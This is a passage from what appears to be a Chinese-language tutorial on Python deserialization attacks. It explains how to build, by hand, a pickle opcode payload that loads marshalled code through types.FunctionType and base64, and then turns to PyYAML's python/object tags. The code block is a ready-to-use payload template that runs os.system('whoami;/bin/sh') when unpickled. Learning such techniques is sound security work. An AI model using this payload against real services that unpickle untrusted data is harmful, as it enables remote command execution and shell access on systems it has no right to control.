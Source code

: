 但是`marshal`不能直接使用`__reduce__`, 因为`reduce`是利用调用某个`callable`并传递参数来执行的, 而`marshal`函数本身就是一个`callable`, 需要执行它, 而不是将他作为某个函数的参数. 

这时候就要利用上面分析的那个`PVM`操作码来进行构造了, 先写出来需要执行的内容, `Python`能通过`types.FunctionTyle(func_code,globals(),'')()`来动态地创建匿名函数, 这一部分的内容可以看[官方文档](https://docs.python.org/3/library/types.html)的介绍.

结合上文的示例代码, 最重要执行的是: `(types.FunctionType(marshal.loads(base64.b64decode(code_enc)), globals(), ''))()`.

这里直接贴一下别的师傅给出来的`Payload`模板.

```python
import base64
import pickle
import marshal

def foo():
    import os
    os.system('whoami;/bin/sh')     # evil code

shell = """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))

print(pickle.loads(shell))
```

<div align=center><img src="./images/8.png"></div>

# PyYAML 反序列化
## 漏洞点
找到`yaml/constructor.py`文件, 查看文件代码中的三个特殊`Python`标签的源码:
 - `!!python/object`标签.
 - `!!python/object/new`标签.
 - `!!python/object/apply`标签.
